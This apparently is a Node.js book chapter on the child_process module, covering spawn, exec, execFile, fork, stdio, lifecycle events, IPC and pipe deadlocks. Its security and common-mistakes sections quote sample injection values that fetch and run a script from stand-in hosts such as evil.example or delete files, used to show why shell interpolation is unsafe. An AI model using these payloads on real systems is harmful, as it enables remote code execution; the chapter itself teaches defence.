

# Chapter 28 — Child Processes

## What you will learn

- Choose correctly among `spawn`, `exec`, `execFile`, `fork`, and their `Sync` variants.
- Recognise and eliminate command injection — the single most damaging mistake in this module.
- Configure `stdio` deliberately, including extra file descriptors and detached background processes.
- Read a child's lifecycle correctly: `'spawn'`, `'error'`, `'exit'`, and `'close'` are four different things.
- Exchange messages and live socket handles with a forked Node process over IPC.
- Stream gigabytes of child output without buffering it, and avoid the pipe deadlock that hangs both processes.

## Why this matters

Sooner or later your Node program has to run something that is not Node. You shell out to `git` to read a commit, to `ffmpeg` to transcode an upload, to `pg_dump` to take a backup, to a Python script your data team maintains. `node:child_process` is the interface for all of it, and it is the module where the largest number of production security incidents in Node applications begin.

The reason is a single design decision that looks trivial: `exec()` runs your command through a shell, `execFile()` does not. If any part of a command string comes from a user — a filename, a repository name, a search term — the shell will happily interpret `;`, `` ` ``, `$()`, and `|` inside it as instructions. That is remote code execution, delivered by your own backup routine. The second-largest source of grief is quieter: a child writes 200 MB to stdout, nobody drains the pipe, the kernel's 64 KB buffer fills, the child blocks forever on `write()`, and your job queue hangs with no error message at all. Both problems are entirely avoidable once you understand what these five functions actually do.

## Five ways to start a process

Every asynchronous creation function returns a `ChildProcess`. They differ in whether a shell is involved, whether output is buffered, and whether an IPC channel is set up.

| Function | Shell? | Output | IPC channel | Returns | Use it when |
|---|---|---|---|---|---|
| `spawn(cmd, args, opts)` | No (unless `shell`) | Streams | Only if `stdio` includes `'ipc'` | `ChildProcess` | The default. Any size of output, long-running processes. |
| `execFile(file, args, opts, cb)` | No (unless `shell`) | Buffered into callback | No | `ChildProcess` | Short, bounded output from a known executable. |
| `exec(command, opts, cb)` | **Yes, always** | Buffered into callback | No | `ChildProcess` | You genuinely need shell features: pipes, globs, redirection. |
| `fork(modulePath, args, opts)` | No (`shell` is ignored) | Inherited unless `silent` | **Yes, always** | `ChildProcess` | Running another Node script that must talk back. |
| `spawnSync` / `execFileSync` / `execSync` | as above | Buffered, returned | No | Result object or `Buffer`/`string` | Build scripts and startup-time configuration only. |

`fork()` is a special case of `spawn()` that launches a new Node.js instance using `process.execPath` and adds an IPC channel. Despite the name it has nothing to do with the POSIX `fork(2)` system call — it does not clone the current process. Each forked child gets a fresh V8 instance and its own memory.

Note also that `exec` and `execFile`, unlike `exec(3)`, do not replace the current process image. Everything here creates a new process alongside yours.

### spawn is the primitive

```mjs
import { spawn } from 'node:child_process';
import { once } from 'node:events';
import process from 'node:process';

const child = spawn('git', ['log', '--oneline', '-n', '5'], {
  cwd: '/srv/repos/api',
});

child.stdout.setEncoding('utf8');
for await (const chunk of child.stdout) {
  process.stdout.write(chunk);
}

const [code] = await once(child, 'close');
console.log(`git exited with ${code}`);
```

Arguments are an array. They are passed to the operating system as a vector, never concatenated into a string, never parsed. A filename containing a space, a quote, or a semicolon is just a filename. This is the property that makes `spawn` and `execFile` safe by construction.

### exec and execFile buffer for you

Both take a callback of `(error, stdout, stderr)` and both are convenient when the output is small and you want it as one string. Both accept `encoding` (**Default:** `'utf8'`; set it to `'buffer'` for binary output) and `maxBuffer` (**Default:** `1024 * 1024`).

Both also have promisified forms via `util.promisify()`, which resolve to `{ stdout, stderr }` and expose the `ChildProcess` as a `child` property on the returned promise:

```mjs
import { promisify } from 'node:util';
import { execFile as execFileCb } from 'node:child_process';

const execFile = promisify(execFileCb);

const { stdout } = await execFile('node', ['--version']);
console.log(stdout.trim());
```

On rejection, the error object carries the same `code` and `signal` as the callback form, plus `stdout` and `stderr` properties — do not throw the error away, or you lose the child's diagnostics.

## The security section: shells and injection

`exec()` spawns a shell (`/bin/sh` on Unix, `process.env.ComSpec` — practically `cmd.exe` — on Windows) and hands it the whole command string. The shell then does word splitting, glob expansion, variable substitution, command substitution, and pipeline construction. All of that is a feature when *you* wrote the string. It is arbitrary code execution when a user wrote part of it.

### ❌ The vulnerable pattern

```mjs
import { exec } from 'node:child_process';

// req.query.branch comes from an HTTP request.
export function branchLog(branch, cb) {
  exec(`git log --oneline ${branch}`, cb);
}
```

Call it with `branch = 'main; curl https://evil.example/x.sh | sh'` and the shell runs two commands. The second one is the attacker's. Quoting the interpolation does not save you — `main"; rm -rf /tmp; echo "` escapes double quotes just as easily. There is no reliable way to escape shell metacharacters across `sh`, `bash`, `zsh`, and `cmd.exe`, which is why the docs' guidance is absolute rather than "sanitise carefully".

### ✅ The fix: no shell, arguments as an array

```mjs
import { execFile } from 'node:child_process';

export function branchLog(branch, cb) {
  execFile('git', ['log', '--oneline', '--', branch], cb);
}
```

Now `branch` reaches `git` as a single `argv` entry. The worst an attacker achieves is an unknown-revision error. The `--` separator adds a second layer: it stops `git` itself from interpreting a value beginning with `-` as an option.

Three follow-on rules:

1. **`shell: true` re-arms the bomb.** `spawn('git', args, { shell: true })` joins `args` with spaces and feeds the result to a shell without escaping. Node deprecated exactly this combination: **[Deprecated]** `DEP0190` — passing `args` to `execFile` or `spawn` with `shell` set — is a *runtime* deprecation as of v24.0.0 and prints a warning. If you need `shell: true`, pass the entire command as the first argument and pass no `args` array.
2. **Validate the executable name too.** `execFile(userSuppliedCommand, args)` has no shell, but it still runs whatever binary the user names, resolved through `PATH`. Allow-list it.
3. **A restrictive `env` is cheap.** Passing `env: { PATH: '/usr/bin:/bin', LANG: 'C' }` stops the child inheriting your database password and stops `PATH` manipulation from redirecting the binary. Remember that `env` *replaces* `process.env` rather than merging with it; spread explicitly if you need more: `env: { ...process.env, GIT_TERMINAL_PROMPT: '0' }`.

If you must use `exec` for a real pipeline, build the pipeline yourself from constants and pass user data through arguments or stdin instead:

```mjs
// User data goes over stdin, never into the command string.
const child = spawn('grep', ['-F', '--', pattern], { stdio: ['pipe', 'pipe', 'inherit'] });
child.stdin.end(haystack);
```

## Options in detail

These apply to `spawn` unless noted; `exec`, `execFile`, and the `Sync` forms accept overlapping subsets.

| Option | Type | Default | Notes |
|---|---|---|---|
| `cwd` | string \| URL | `process.cwd()` | A `file:` URL is accepted. |
| `env` | Object | `process.env` | Replaces, does not merge. |
| `argv0` | string | the command | Sets `argv[0]` seen by the child, independent of the binary run. |
| `stdio` | Array \| string | `'pipe'` | See below. |
| `detached` | boolean | `false` | New process group/session on POSIX; own console window on Windows. |
| `uid` / `gid` | number | — | POSIX only; needs privilege to lower into another identity. |
| `serialization` | `'json'` \| `'advanced'` | `'json'` | IPC encoding. |
| `shell` | boolean \| string | `false` | `true` means `/bin/sh` or `%ComSpec%`. `exec`/`execSync` take a string only, and always use a shell. |
| `timeout` | number | `undefined` (`0` for `exec`) | Sends `killSignal` after this many milliseconds. |
| `killSignal` | string \| integer | `'SIGTERM'` | Used by `timeout` and by the `signal` option. |
| `maxBuffer` | number | `1024 * 1024` | `exec`/`execFile`/`Sync` only. |
| `signal` | AbortSignal | — | Aborting kills the child; the error is an `AbortError`. |
| `windowsHide` | boolean | `false` | Suppress the console window on Windows. |
| `windowsVerbatimArguments` | boolean | `false` | No quoting/escaping on Windows. Forced to `true` when `shell` is CMD. |

### stdio

`stdio` decides where the child's file descriptors go. As a string it is shorthand for all three of stdin, stdout, stderr:

| Value | Meaning |
|---|---|
| `'pipe'` | Create a pipe; the parent end appears as `child.stdin` / `stdout` / `stderr`. The default. |
| `'overlapped'` | Like `'pipe'`, but sets `FILE_FLAG_OVERLAPPED` on Windows for overlapped I/O. Identical to `'pipe'` elsewhere. |
| `'ignore'` | Attach `/dev/null` to the descriptor. |
| `'inherit'` | Share the parent's descriptor — the child writes straight to your terminal or log file. |

As an array, each index is a descriptor number in the child, and each element may additionally be `'ipc'` (at most one per child), a `Stream` with a backing descriptor, a positive integer file descriptor already open in the parent, or `null`/`undefined` for the default. Descriptors 3 and up default to `'ignore'`.

```mjs
import { openSync } from 'node:fs';
import { spawn } from 'node:child_process';

const log = openSync('./transcode.log', 'a');

// stdin ignored, stdout and stderr appended to a file,
// fd 4 is an extra pipe for a progress protocol.
const child = spawn('ffmpeg', ['-i', input, '-progress', 'pipe:4', output], {
  stdio: ['ignore', log, log, 'ignore', 'pipe'],
});

child.stdio[4].on('data', (buf) => parseProgress(buf));
```

One subtlety: pipes created this way are not real Unix pipes on disk, so the child cannot reach them via `/dev/fd/N` or `/dev/stdout`. If a tool insists on such a path, give it a real file or a FIFO.

### detached and background processes

`detached: true` makes the child a process-group and session leader on POSIX, and gives it its own console window on Windows. That is only half of what "run in the background and survive my exit" requires. Two more things are needed:

```mjs
const child = spawn(process.execPath, ['worker.js'], {
  detached: true,
  stdio: 'ignore',   // must not hold the parent's terminal
});
child.unref();       // parent's event loop stops counting the child
```

If you leave `stdio: 'inherit'`, the child stays attached to the controlling terminal and dies with it. If you forget `unref()`, your parent will not exit until the child does. And note that `unref()` does not release a child that still has an open IPC channel — call `child.disconnect()` too.

### timeout, killSignal, and AbortSignal

`timeout` fires `killSignal` after the deadline. It does not guarantee the process dies: `SIGTERM` is catchable, and a child that ignores it just keeps running. For a hard deadline, escalate.

```mjs
import { spawn } from 'node:child_process';
import { once } from 'node:events';

async function runBounded(cmd, args, ms) {
  const child = spawn(cmd, args, { stdio: ['ignore', 'inherit', 'inherit'] });

  const soft = setTimeout(() => child.kill('SIGTERM'), ms);
  const hard = setTimeout(() => child.kill('SIGKILL'), ms + 5_000);

  try {
    const [code, signal] = await once(child, 'close');
    return { code, signal };
  } finally {
    clearTimeout(soft);
    clearTimeout(hard);
  }
}
```

`signal` (an `AbortSignal`) is the composable version and works with `spawn`, `exec`, `execFile`, and `fork`. Aborting the controller kills the child and, for the callback forms, delivers an `AbortError`.

### maxBuffer and silent truncation

`maxBuffer` is the number of **bytes** allowed on stdout or on stderr. Exceed it and Node kills the child and reports `ERR_CHILD_PROCESS_STDIO_MAXBUFFER` — with the output you did receive truncated. The default is 1 MiB, which a `git log` on a large repository or a verbose test runner blows through immediately.

Because the limit counts bytes rather than characters, multibyte text hits it sooner than you expect: `'中文测试'` is four characters but thirteen UTF-8 bytes, and the truncation point can land mid-sequence, producing a replacement character at the tail. If you find yourself raising `maxBuffer` past a few megabytes, that is the signal to stop using `exec`/`execFile` and switch to `spawn` with streaming.

## The ChildProcess object

| Member | Type | Meaning |
|---|---|---|
| `child.pid` | integer \| undefined | OS process id. `undefined` if the spawn failed. |
| `child.stdin` / `stdout` / `stderr` | Stream \| null | Aliases for `child.stdio[0..2]`. `null` when that fd is not `'pipe'`. |
| `child.stdio` | Array | Sparse array of pipes, including extra descriptors. |
| `child.exitCode` | integer \| null | `null` while running, and also `null` when killed by a signal. |
| `child.signalCode` | string \| null | The signal that terminated the child, else `null`. |
| `child.killed` | boolean | A signal was **sent** successfully. Not "the process is dead". |
| `child.connected` | boolean | IPC channel still open. |
| `child.spawnfile` / `spawnargs` | string / Array | What was actually launched. Excellent for error messages. |
| `child.kill([signal])` | → boolean | Sends a signal; `true` if `kill(2)` succeeded. |
| `child[Symbol.dispose]()` | — | Calls `kill('SIGTERM')`; enables `using child = spawn(...)`. |

Two of these mislead people constantly. `killed` means the signal was delivered, not that the process exited — a child handling `SIGTERM` gracefully may run for another ten seconds with `killed === true`. And when a child is killed by a signal, `exitCode` stays `null`; the information is in `signalCode`. To convert a signal into the conventional POSIX exit code (128 + signal number), use `util.convertProcessSignalToExitCode()`, available since v25.4.0 / v24.14.0:

```mjs
import { convertProcessSignalToExitCode } from 'node:util';

const status = child.exitCode ?? convertProcessSignalToExitCode(child.signalCode);
```

### 'exit' is not 'close'



- **`'spawn'`** fires once the process has been created successfully. It arrives before any other event and before any output. It does *not* mean the program worked — `bash some-typo` spawns fine and then fails on its own.
- **`'exit'`** fires when the process has ended. The child's stdio streams may still have buffered data in flight. Reading output in an `'exit'` handler is a race you will lose intermittently on large outputs.
- **`'close'`** fires after the process ended *and* every stdio stream belonging to it has closed. It always comes after `'exit'` (or after `'error'` when the spawn failed). **This is the event to wait on when you care about the output.**
- **`'error'`** fires when the process could not be spawned (`ENOENT` for a missing binary, `EACCES` for a non-executable file), could not be killed, or when a `send()` failed. `'exit'` may or may not follow, so guard against running your completion logic twice.

Both `'exit'` and `'close'` carry `(code, signal)`, and exactly one of the two is non-`null`.

```mjs
function run(cmd, args, options = {}) {
  return new Promise((resolve, reject) => {
    const child = spawn(cmd, args, options);
    const out = [];
    const err = [];
    child.stdout?.on('data', (c) => out.push(c));
    child.stderr?.on('data', (c) => err.push(c));
    child.once('error', reject);                    // spawn failure
    child.once('close', (code, signal) => {         // not 'exit'
      if (code === 0) resolve(Buffer.concat(out).toString());
      else reject(Object.assign(
        new Error(`${cmd} failed: ${signal ?? `exit ${code}`}`),
        { code, signal, stderr: Buffer.concat(err).toString() },
      ));
    });
  });
}
```

## IPC with fork()

`fork()` always establishes an IPC channel, which enables `child.send()` and `'message'` on the parent side, and `process.send()`, `process.on('message')`, `process.disconnect()`, and `process.connected` inside the child.

```mjs
// parent.mjs
import { fork } from 'node:child_process';

const worker = fork(new URL('./worker.mjs', import.meta.url), [], {
  serialization: 'advanced',
});

worker.on('message', (msg) => {
  if (msg.type === 'result') console.log('digest', msg.digest);
});

worker.send({ type: 'hash', payload: new Uint8Array([1, 2, 3]) });
worker.disconnect();
```

```mjs
// worker.mjs
import { createHash } from 'node:crypto';
import process from 'node:process';

process.on('message', (msg) => {
  if (msg.type !== 'hash') return;
  const digest = createHash('sha256').update(msg.payload).digest('hex');
  process.send({ type: 'result', digest });
});
```

### Serialization: 'json' vs 'advanced'

The default `'json'` mode round-trips messages through JSON, so `undefined` disappears, `NaN` and `Infinity` become `null`, `Date` becomes a string, and `Map`, `Set`, `BigInt`, `Buffer`, and `RegExp` are mangled. Setting `serialization: 'advanced'` switches to the `node:v8` structured-serialization API, which handles all of those plus `Error`, `ArrayBuffer`, and typed arrays.

Two caveats: `'advanced'` is not a superset of JSON — extra own properties set on instances of built-in types are dropped — and it is not automatically faster. It is a good default for Node-to-Node IPC where you control both ends; it is wrong if the other end is not a Node process using the same setting.

Also reserved: messages whose `cmd` property starts with `NODE_` are consumed internally by Node and never reach your `'message'` handler. Do not name your protocol commands that way.

### Sending handles

`send()` takes an optional `sendHandle` — a `net.Server`, `net.Socket`, or `dgram.Socket`. The receiving side gets it as the second argument to the `'message'` handler. This is exactly the machinery `node:cluster` is built on: the parent accepts a connection and hands the live socket to a child, which then owns it.

```mjs
// parent
server.on('connection', (socket) => {
  worker.send({ type: 'connection' }, socket);
});

// child
process.on('message', (msg, socket) => {
  if (msg.type !== 'connection') return;
  socket.end('handled by child\n');
});
```

Data already buffered on the socket is *not* forwarded, so hand the socket over before you read from it. Pass `{ keepOpen: true }` as the options argument if the sender should keep its own copy of a `net.Socket` open. **Sending handles over IPC is not supported on Windows.**

### Flow control and disconnect

`send()` returns `false` when the channel is closed or the backlog of unsent messages is too large — treat it exactly like `writable.write()` and stop pushing. Provide a callback if you need to know when a message left the parent (it is called before the child has necessarily received it); without one, a failed send emits `'error'` on the `ChildProcess`.

`child.disconnect()` closes the channel so the child can exit cleanly once nothing else keeps it alive; both sides then see `connected === false` and a `'disconnect'` event. Until then, an open IPC channel keeps the parent's event loop alive even after `unref()`. Note that the channel is created unreferenced and only becomes referenced once the child registers a `'message'` or `'disconnect'` listener — which is why a forked child with no listeners can exit immediately.

## Streaming, backpressure, and the classic deadlock

Buffering is the wrong default for anything large. Streaming keeps memory flat and starts work sooner:

```mjs
import { spawn } from 'node:child_process';
import { pipeline } from 'node:stream/promises';
import { createWriteStream } from 'node:fs';
import { createGzip } from 'node:zlib';

const dump = spawn('pg_dump', ['--format=plain', 'appdb'], {
  stdio: ['ignore', 'pipe', 'inherit'],
});

await pipeline(dump.stdout, createGzip(), createWriteStream('backup.sql.gz'));

const [code] = await once(dump, 'close');
if (code !== 0) throw new Error(`pg_dump exited ${code}`);
```

Now the deadlock. A pipe has a fixed kernel buffer, typically 64 KiB on Linux. When it is full, the writer blocks inside `write(2)`. So:

- You spawn a child with `stdio: ['pipe', 'pipe', 'pipe']` and only read `stdout`.
- The child writes a few hundred kilobytes to `stderr` — a progress bar, a warning per file.
- `stderr`'s buffer fills. The child blocks. It stops writing to `stdout` too, because it is stuck.
- You wait forever on `'close'`. No error, no timeout, no CPU usage. Just a hung job.

The same happens in the other direction if the child reads all of stdin and you never call `child.stdin.end()`.

The fixes, in order of preference: set the descriptors you do not care about to `'ignore'` or `'inherit'` so no pipe exists; consume every pipe you create, even if you throw the data away; always `end()` stdin when you are done writing; and set a wall-clock `timeout` so a hang becomes a failure rather than a hang.

```mjs
// Safe: nothing can fill an unread pipe.
const child = spawn('noisy-tool', args, { stdio: ['ignore', 'pipe', 'inherit'] });
```

Note that `spawnSync` and friends sidestep this by draining all pipes internally — at the cost of blocking your entire process. That is fine in a CLI or a build script and unacceptable in a server.

## Windows differences

| Area | POSIX | Windows |
|---|---|---|
| Signals | Real signals; `kill('SIGHUP')` etc. | No POSIX signals. `subprocess.kill()` ignores the argument except for `'SIGKILL'`, `'SIGTERM'`, `'SIGINT'`, `'SIGQUIT'`, and always terminates forcefully and abruptly. |
| `.bat` / `.cmd` | n/a | Not directly executable. Use `exec()`, or `spawn('cmd.exe', ['/c', 'my.bat'])`. `execFile()` cannot run them. |
| Argument quoting | Vector passed to `execve` | The OS takes a single command line; Node quotes for you unless `windowsVerbatimArguments: true`. |
| Handles over IPC | Supported | Not supported. |
| `stdio` integers | Sockets can be passed | Passing sockets is not supported. |
| Default shell | `/bin/sh` | `process.env.ComSpec`, falling back to `cmd.exe`. |
| Console window | n/a | Suppress with `windowsHide: true`. |
| `detached` | New process group and session | Own console window; cannot be disabled once set. |

A related POSIX trap: on Linux, killing a child does **not** kill its grandchildren. `spawn('sh', ['-c', 'node server.js'])` followed by `child.kill()` kills the shell and leaves `node server.js` running. Avoid the intermediate shell, or spawn with `detached: true` and signal the whole process group with `process.kill(-child.pid, 'SIGTERM')`.

## When a child process is the wrong tool

Reach for `node:worker_threads` instead when:

- **The work is CPU-bound JavaScript.** A worker thread starts in a few milliseconds; a Node child process costs tens of milliseconds plus a full V8 heap (tens of megabytes). For a hundred parse jobs per second, that difference decides whether the design works.
- **You need to move large binary payloads.** Workers transfer `ArrayBuffer` ownership at zero copy cost and share `SharedArrayBuffer` outright. IPC always serialises and copies.
- **You want shared state.** Processes cannot share memory; threads can.

Stay with a child process when:

- **The code is not JavaScript.** `ffmpeg` is not going to run in a worker.
- **You need real isolation.** A segfault in a native addon takes down a whole process, threads included. A crashing child process is contained, and only a process can drop privileges with `uid`/`gid` or be given a different `cwd` or `env`.
- **You need to scale across CPU cores while sharing a listening socket.** That is `node:cluster`, which is `fork()` plus handle passing.

Chapter 29 covers workers in depth; Chapter 30 covers cluster.

## Common mistakes

### ❌ Interpolating user input into an `exec()` string

```mjs
exec(`convert ${req.body.filename} -resize 100x100 out.png`);
```

A filename of `a.png; wget http://evil/x -O- | sh` runs the attacker's shell. Quoting does not fix it.

✅ Use `execFile` or `spawn` with an argument array, and no shell:

```mjs
execFile('convert', [req.body.filename, '-resize', '100x100', 'out.png'], cb);
```

### ❌ Reading output in the `'exit'` handler

```mjs
let out = '';
child.stdout.on('data', (c) => { out += c; });
child.on('exit', () => console.log(out)); // sometimes truncated
```

`'exit'` fires when the process ends, before its stdio streams have necessarily flushed. On small outputs this "works", which is why it survives code review and fails in production.

✅ Wait for `'close'`:

```mjs
child.on('close', () => console.log(out));
```

### ❌ Creating a pipe you never read

```mjs
const child = spawn('build-tool', args); // stdio defaults to all pipes
child.stdout.pipe(process.stdout);       // stderr is piped but never consumed
await once(child, 'close');              // hangs once stderr fills 64 KiB
```

✅ Consume or disable every pipe:

```mjs
const child = spawn('build-tool', args, { stdio: ['ignore', 'inherit', 'inherit'] });
```

### ❌ Trusting `killed` to mean "dead"

```mjs
child.kill();
if (child.killed) cleanUpSharedResources(); // the child may still be writing
```

✅ `killed` only means the signal was sent. Wait for the process to actually end:

```mjs
child.kill();
await once(child, 'close');
cleanUpSharedResources();
```

### ❌ Raising `maxBuffer` instead of streaming

```mjs
exec('find / -type f', { maxBuffer: 512 * 1024 * 1024 }, cb);
```

You have just authorised half a gigabyte of resident memory per concurrent call.

✅ Stream it:

```mjs
import { createInterface } from 'node:readline';

const child = spawn('find', ['/', '-type', 'f'], { stdio: ['ignore', 'pipe', 'ignore'] });
for await (const line of createInterface({ input: child.stdout })) handle(line);
```

## Production notes

- **Cap concurrency.** Nothing in `child_process` limits how many processes you start. A request handler that spawns one process per request is a fork bomb with an HTTP interface. Put spawns behind a semaphore or a job queue sized to `os.availableParallelism()`, and reject rather than queue without bound.
- **Every spawn needs a deadline.** Use `timeout` plus an escalation to `SIGKILL`, or an `AbortSignal` driven by your request timeout. Processes that hang on network I/O or wait for input on a terminal are the most common cause of leaked children.
- **Reap and account for children on shutdown.** On `SIGTERM`, signal your children, wait for `'close'` with a bounded timeout, then `SIGKILL` the stragglers. Children that outlive the parent keep container images alive and confuse orchestrators. See [Chapter 26 — Signals, Graceful Shutdown, and Process Lifecycle](../part4-system/26-signals-and-shutdown.md).
- **Log `spawnfile` and `spawnargs` on failure.** An `ENOENT` from `'error'` tells you nothing about which of your twelve spawn sites failed. These two properties, plus `cwd`, turn a mystery into a one-line diagnosis.
- **Minimise the child's environment and privileges.** Pass an explicit `env`, an absolute path to the executable, and where the platform allows it, `uid`/`gid` for a lower-privileged account. A compromised child inherits everything you give it.
- **Never use the `Sync` variants on a request path.** They block the event loop for the entire lifetime of the child — every connection, timer, and callback in the process stalls. They belong in build scripts, CLI tools, and startup-time configuration loading, nowhere else.
- **The Permission Model gates this module.** Under `--permission`, spawning anything throws `ERR_ACCESS_DENIED` unless `--allow-child-process` is passed. See [Chapter 31 — The Permission Model](../part4-system/31-permission-model.md).
- **Measure before you reach for processes.** A Node child process costs roughly an order of magnitude more memory and startup time than a worker thread. If the payload is JavaScript, benchmark both.

## Exercises

1. **Build a safe command runner.** Write `run(cmd, args, { cwd, timeout })` returning a promise that resolves `{ stdout, stderr, code }` and rejects on non-zero exit or timeout, with `spawnfile`, `spawnargs`, and `stderr` attached to the error. *Success:* it never uses a shell, never buffers more than a configurable cap, and rejects within 50 ms of the deadline.

2. **Reproduce the pipe deadlock, then fix it.** Spawn a child that writes 10 MB to stderr and 1 KB to stdout while the parent reads only stdout. *Success:* you can demonstrate the hang, explain the buffer size involved, and show two distinct fixes.

3. **Compare serialization modes.** Fork a child and send 10,000 messages containing a `Map`, a `Date`, a `BigInt`, and a 64 KiB `Buffer`, under both `'json'` and `'advanced'`. *Success:* a table of round-trip fidelity and throughput, plus a statement of which fields survive each mode.

4. **Hand off a live socket.** Write a TCP server in the parent that accepts connections and passes each socket to one of four forked children by round-robin, with the child writing the response. *Success:* `curl` gets a reply naming the child's PID, and killing one child does not drop connections held by the others.

5. **Write a supervised transcoder.** Run `ffmpeg` on a queue of files with concurrency limited to `os.availableParallelism()`, streaming progress from an extra file descriptor, killing jobs that exceed a per-file deadline, and shutting all children down cleanly on `SIGINT`. *Success:* no zombie processes after `Ctrl-C`, flat memory under a hundred-file queue.

## Recap

- `spawn` is the primitive; `exec`/`execFile` add buffering, `fork` adds an IPC channel and a Node runtime, and the `Sync` forms block the event loop.
- `exec` always runs a shell. Never interpolate untrusted data into its command string, and remember `shell: true` plus an `args` array is deprecated under `DEP0190` precisely because it is unescaped.
- `execFile`/`spawn` with an argument array pass data to the OS as a vector — injection-proof by construction.
- `stdio` accepts `'pipe'`, `'overlapped'`, `'ignore'`, `'inherit'`, `'ipc'`, streams, and raw file descriptors, with extra descriptors defaulting to `'ignore'`.
- `'spawn'` → output → `'exit'` → `'close'`, or `'error'` → `'close'` on spawn failure. Collect output on `'close'`, not `'exit'`.
- `killed` means the signal was sent; `exitCode` is `null` for signal deaths, where `signalCode` holds the answer.
- `maxBuffer` defaults to 1 MiB, counts bytes rather than characters, and kills the child with truncated output when exceeded.
- IPC uses `'json'` serialization by default; `'advanced'` handles `Map`, `Set`, `BigInt`, `Buffer`, and `Error`, and needs both sides to opt in.
- Any pipe you create must be consumed, or a full 64 KiB kernel buffer deadlocks the child.
- Windows has no real signals, cannot run `.bat`/`.cmd` through `execFile`, and cannot pass handles over IPC.
- Use worker threads for CPU-bound JavaScript; use child processes for non-JavaScript programs, isolation, and privilege separation.

## Where to go next

- [Chapter 29 — Worker Threads](../part4-system/29-worker-threads.md) for the in-process alternative and the cost comparison.
- [Chapter 30 — Cluster and Multi-Process Scaling](../part4-system/30-cluster.md) for `fork()` plus socket handoff at scale.
- [Chapter 26 — Signals, Graceful Shutdown, and Process Lifecycle](../part4-system/26-signals-and-shutdown.md) for shutting down a process tree.
- [Chapter 19 — Streams II: Duplex, Transform, pipeline, Backpressure](../part3-data/19-streams-advanced.md) for the pipeline patterns used with child stdio.
- [Chapter 31 — The Permission Model](../part4-system/31-permission-model.md) for `--allow-child-process`.
- [Chapter 44 — Securing Node.js Applications](../part6-security/44-securing-applications.md) for injection defences beyond this module.
- Official documentation: <https://nodejs.org/docs/latest/api/child_process.html>
